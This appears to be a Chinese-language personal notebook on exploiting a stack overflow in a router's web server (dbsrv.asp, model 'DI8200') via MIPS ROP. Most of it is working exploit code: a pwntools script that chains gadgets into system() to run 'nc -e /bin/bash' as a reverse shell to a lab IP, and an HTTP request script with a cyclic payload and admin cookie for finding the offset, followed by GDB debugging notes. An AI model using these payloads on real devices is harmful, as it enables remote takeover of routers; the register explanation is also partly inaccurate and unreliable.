










# mipsrop_DI8200


参考rop
```
from pwn import *
context.endian = "little"
context.arch = "mips"
base_addr = 0x77f34000
system_addr_1 = 0x53200-1
gadget1 = 0x158c8
gadget2 = 0x159cc
cmd = 'nc -e /bin/bash 192.168.100.254 9999'
padding = 'A' * 973         
padding += p32(base_addr + system_addr_1) # s0
padding += 'A' * 4                        # s1
padding += 'A' * 4                        # s2
padding += 'A' * 4                        # s3
padding += 'A' * 4                        # s4
padding += p32(base_addr+gadget2)         # s5
padding += 'A' * 4                        # s6
padding += 'A' * 4                        # s7
padding += 'A' * 4                        # fp
padding += p32(base_addr + gadget1)       # ra   到这里刚好是1003   所以前面有973个A
padding += 'B' * 0x10
padding += cmd
f = open("context",'wb')
f.write(padding)
f.close()


###gadget1
###move    $t9, $s5
####jalr    $t9

###gadget2
#.text:000159CC                 addiu   $s5, $sp, 0x10
#.text:000159D0                 move    $a1, $s3
#.text:000159D4                 move    $a2, $s1
#.text:000159D8                 move    $t9, $s0
#.text:000159DC                 jalr    $t9 ;        #system()

```


在 MIPS 架构中，`s0` 到 `s7` 是寄存器的名称，它们是用于存储函数的局部变量和参数的。

在函数调用时，MIPS 架构使用以下约定来存储寄存器的值：

* `s0` 到 `s7`：这些寄存器用于存储函数的局部变量和参数。
* `fp`：帧指针寄存器，指向当前函数的栈帧。
* `ra`：返回地址寄存器，存储函数返回时的地址。

当函数被调用时，MIPS 架构会自动保存当前函数的寄存器值到栈上，这个过程称为 "压栈"。压栈的顺序是：

1. `s0` 到 `s7`：这些寄存器的值被压入栈中。
2. `fp`：帧指针寄存器的值被压入栈中。
3. `ra`：返回地址寄存器的值被压入栈中。

在你的代码中，`s0` 到 `s7` 的值是通过以下方式取值的：

* `s0`：`base_addr + system_addr_1`
* `s1`：`'A' * 4`
* `s2`：`'A' * 4`
* `s3`：`'A' * 4`
* `s4`：`'A' * 4`
* `s5`：`base_addr + gadget2`
* `s6`：`'A' * 4`
* `s7`：`'A' * 4`

这些值是通过手动指定的，目的是为了构造一个特定的栈帧，以便于利用某些漏洞。

在定位这些值时，需要考虑到 MIPS 架构的压栈顺序和寄存器的用途。通过分析代码和栈帧的结构，可以确定这些值的位置和取值。


确定offset 
```
import requests
from pwn import *

#proxies = { 'http': '127.0.0.1:8080', 'https': '127.0.0.1:8080' }

target_ip = "192.168.0.1"
target_port = 80
  
libc_base = 0x77d01000

system_offset = 0x0004BD20

data_addr_offset = 0x000E20B2

gadget_addr_offset = 0x0001C174

data_addr = 0x6135e9

gadget_addr = libc_base + gadget_addr_offset

system_addr = libc_base + system_offset

cmd = b'ps > 1.txt'
#cmd = b'wget http://192.168.0.2:8080'


payload = b'a' *(0xCD0)
payload += b'a' *4	#overwrite old s0
payload += b'a' *4	#overwrite old s1
payload += b'a' *4	#overwrite old s2
payload += b'a' *4	#overwrite old s3
payload += b'a' *4	#overwrite old s4
payload += b'a' *4  #overwrite old s5
payload += b'a' *4	#overwrite old s6
payload += b'a' *4	#overwrite old s7
payload += b'a' *4	#overwrite old fp
payload += p32(gadget_addr) #overwrite old ra //addiu_sp0x18_jar_sp0xc_offset
payload += p32(data_addr)
payload += b'a' *4	#sp+4
payload += b'a' *4	#sp+8
payload += p32(system_addr)	#sp+0xc     systemaddr
payload += b'a' *4	#sp+0x10
payload += b'a' *4	#sp+0x10
payload += b'a' *4	#sp+0x14
payload += cmd


payload2 = b'abcd'


payloadtest=b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaakgaakhaakiaakjaakkaaklaakmaaknaakoaakpaakqaakraaksaaktaakuaakvaakwaakxaakyaakzaalbaalcaaldaaleaalfaalgaalhaaliaaljaalkaallaalmaalnaaloaalpaalqaalraalsaaltaaluaalvaalwaalxaalyaalzaambaamcaamdaameaamfaamgaamhaamiaamjaamkaamlaammaamnaamoaampaamqaamraamsaamtaamuaamvaamwaamxaamyaamzaanbaancaandaaneaanfaangaanhaaniaanjaankaanlaanmaannaanoaanpaanqaanraansaantaanuaanvaanwaanxaanyaanzaaobaaocaaodaaoeaaofaaogaaohaaoiaaojaaokaaolaaomaaonaaooaaopaaoqaaoraaosaaotaaouaaovaaowaaoxaaoyaaozaapbaapcaapdaapeaapfaapgaaphaapiaapjaapkaaplaapmaapnaapoaappaapqaapraapsaaptaapuaapvaapwaapxaapyaapzaaqbaaqcaaqdaaqeaaqfaaqgaaqhaaqiaaqjaaqkaaqlaaqmaaqnaaqoaaqpaaqqaaqraaqsaaqtaaquaaqvaaqwaaqxaaqyaaqzaarbaarcaardaareaarfaargaarhaariaarjaarkaarlaarmaarnaaroaarpaarqaarraarsaartaaruaarvaarwaarxaaryaarzaasbaascaasdaaseaasfaasgaashaasiaasjaaskaaslaasmaasnaasoaaspaasqaasraassaastaasuaasvaaswaasxaasyaaszaatbaatcaatdaateaatfaatgaathaatiaatjaatkaatlaatmaatnaatoaatpaatqaatraatsaattaatuaatvaatwaatxaatyaatzaaubaaucaaudaaueaaufaaugaauhaauiaaujaaukaaulaaumaaunaauoaaupaauqaauraausaautaauuaauvaauwaauxaauyaauzaavbaavcaavdaaveaavfaavgaavhaaviaavjaavkaavlaavmaavnaavoaavpaavqaavraavsaavtaavuaavvaavwaavxaavyaavzaawbaawcaawdaaweaawfaawgaawhaawiaawjaawkaawlaawmaawnaawoaawpaawqaawraawsaawtaawuaawvaawwaawxaawyaawzaaxbaaxcaaxdaaxeaaxfaaxgaaxhaaxiaaxjaaxkaaxlaaxmaaxnaaxoaaxpaaxqaaxraaxsaaxtaaxuaaxvaaxwaaxxaaxyaaxzaaybaaycaaydaayeaayfaaygaayhaayiaayjaaykaaylaaymaaynaayoaaypaayqaayraaysaaytaayuaayvaaywaayxaayyaayzaazbaazcaazdaazeaazfaazgaazhaaziaazjaazkaazlaazmaaznaazoaazpaazqaazraazsaaztaazuaazvaazwaazxaazyaazzababacabadabaeabafabagabahabaiabajabakabalabamabanabaoabapabaqabarabasabatabauabavabawabaxabayabazabbbabbcabbdabbeabbfabbgabbhabbiabbjabbkabblabbmabbnabboabbpabbqabbrabbsabbtabbuabbvabbwabbxabbyabbzabcbabccabcdabceabcfabcgabchabciabcjabckabclabcmabcnabcoabcpabcqabcrabcsabctabcuabcvabcwabcxabcyabczabdbabdcabddabdeabdfabdgabdhabdiabdjabdkabdlabdmabdnabdoabdpabdqabdrabdsabdtabduabdvabdwabdxabdyabdzabebabecabedabeeabefabegabehabeiabejabekabelabemabenabeoabepabeqaberabesabetabeuabevabewabexabeyabezabfbabfcabfdabfeabffabfgabfhabfiabfjabfkabflabfmabfnabfoabfpabfqabfrabfsabftabfuabfvabfwabfxabfyabfzabgbabgcabgdabgeabgfabggabghabgiabgjabgkabglabgmabgnabgoabgpabgqabgrabgsabgtabguabgvabgwabgxabgyabgzabhbabhcabhdabheabhfabhgabhhabhiabhjabhkabhlabhmabhnabhoabhpabhqabhrabhsabhtabhuabhvabhwabhxabhyabhzabibabicabidabieabifabigabihabiiabijabikabilabimabinabioabipabiqabirabisabitabiuabivabiwabixabiyabizabjbabjcabjdabjeabjfabjgabjhabjiabjjabjkabjlabjmabjnabjoabjpabjqabjrabjsabjtabjuabjvabjwabjxabjyabjzabkbabkcabkdabkeabkfabkgabkhabkiabkjabkkabklabkmabknabkoabkpabkqabkrabksabktabkuabkvabkwabkxabkyabkzablbablcabldableablfablgablhabliabljablkabllablmablnabloablpablqablrablsabltabluablvablwablxablyablzabmbabmcabmdabmeabmfabmgabmhabmiabmjabmkabmlabmmabmnabmoabmpabmqabmrabmsabmtabmuabmvabmwabmxabmyabmzabnbabncabndabneabnfabngabnhabniabnjabnkabnlabnmabnnabnoabnpabnqabnrabnsabntabnuabnvabnwabnxabnyabnzabobabocabodaboeabofabogabohaboiabojabokabolabomabonabooabopaboqaborabosabotabouabovabowaboxaboyabozabpbabpcabpdabpeabpfabpgabphabpiabpjabpkabplabpmabpnabpoabppabpqabprabpsabptabpuabpvabpwabpxabpyabpzabqbabqcabqdabqeabqfabqgabqhabqiabqjabqkabqlabqmabqnabqoabqpabqqabqrabqsabqtabquabqvabqwabqxabqyabqzabrbabrcabrdabreabrfabrgabrhabriabrjabrkabrlabrmabrnabroabrpabrqabrrabrsabrtabruabrvabrwabrxabryabrzabsbabscabsdabseabsfabsgabshabsiabsjabskabslabsmabsnabsoabspabsqabsrabssabstabsuabsvabswabsxabsyabszabtbabtcabtdabteabtfabtgabthabtiabtjabtkabtlabtmabtnabtoabtpabtqabtrabtsabttabtuabtvabtwabtxabtyabtzabubabucabudabueabufabugabuhabuiabujabukabulabumabunabuoabupabuqaburabusabutabuuabuvabuwabuxabuyabuzabvbabvcabvdabveabvfabvgabvhabviabvjabvkabvlabvmabvnabvoabvpabvqabvrabvsabvtabvuabvvabvwabvxabvyabvzabwbabwcabwdabweabwfabwgabwhabwiabwjabwkabwlabwmabwnabwoabwpabwqabwrabwsabwtabwuabwvabwwabwxabwyabwzabxbabxcabxdabxeabxfabxgabxhabxiabxjabxkabxlabxmabxnabxoabxpabxqabxrabxsabxtabxuabxvabxwabxxabxyabxza'


url = f"http://{target_ip}/dbsrv.asp?" 

cookie = {"wys_userid": "admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86"}

headers = {
     "Accept": "application/json, text/javascript, */*",
     "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.3    6",
     "Referer": "http://192.168.0.1/",
     "Accept-Encoding": "gzip, deflate, br",
     "Accept-Language": "zh,en-US;q=0.9,en;q=0.8",
     "Connection": "close" 
}

params = {
	
	"str":{payloadtest}

}

requests.get(url, params=params, cookies=cookie)
#requests.get(url, params=params, cookies=cookie,proxies=proxies)
```


到strcpy处 


  


0x77d5002c

0x77fdd744


strcpy后  
0x43d160


dbsrv_data
0x43d384


► f 0 0x40cf34 httpd_send_data_alloc+60
   f 1 0x40f948 httpd_cgi_ret+852
   f 2 0x43cf44 dbsrv_data+504
   f 3 0x43d38c dbsrv_asp+1020
   

b dbsrv_data
b httpd_cgi_ret
b httpd_send_data_alloc

\
---


错误发生在

  v7 = send(*(a1 + 102976), a2, a3, 0);
  ```
 send 函数的参数如下：
sockfd：socket 文件描述符（File Descriptor），表示要发送数据的 socket。
buf：数据缓冲区的地址，表示要发送的数据存储在哪里。
len：要发送的数据的长度，表示要发送多少个字节的数据。
flags：发送数据的标志，表示如何发送数据。
  ```

造成段错误的是a1+ 102976


a1是个结构体  位置在0x5f91f0


这个位置是个文件描述符，是4















最后会在





---




结合汇编，这里影响到s2取地址的是a0
 A0   0x6135e9 ◂— 0x95c0a800
*A1   0x7fff2850 ◂— 0x50545448 ('HTTP')
*A2   0x129


也就是0x6135e9这个地址值，传入的是
0x6135e9+0x2000 =0x6335e9    


0x6335e9-0x6dc0=0x62c829这个地址是不存在的 ，造成了段错误，无法执行 。


所以我们必须设置a0+0x20000-0x6dc0=a0+0x19240的地方放入一个地址，这个地址中的值为sock绑定的文件描述符 ，才能正常执行程序 


0x6135e9从何而来 ？ 

网上回溯，从httpd_send_data_alloc
到httpd_cgi_ret
再到dbsrv_data

最后追溯到dbsrv_asp
在dbsrv_asp函数中


我一直以为这里传入的参数是a1 ,也就是我们的sock结构体。实际上这里反汇编出错了。


这里dbsrv的传入值是nvram_get("dbsrv_en")得到的值 

然后nvram_get("dbsrv_en")+0x19240 会得到一个文件描述符号

因为这里是模拟的，所以nvram_get("dbsrv_en")为空，后面取地址就错了，发生段错误。

这里应该实体机就能正常运行。


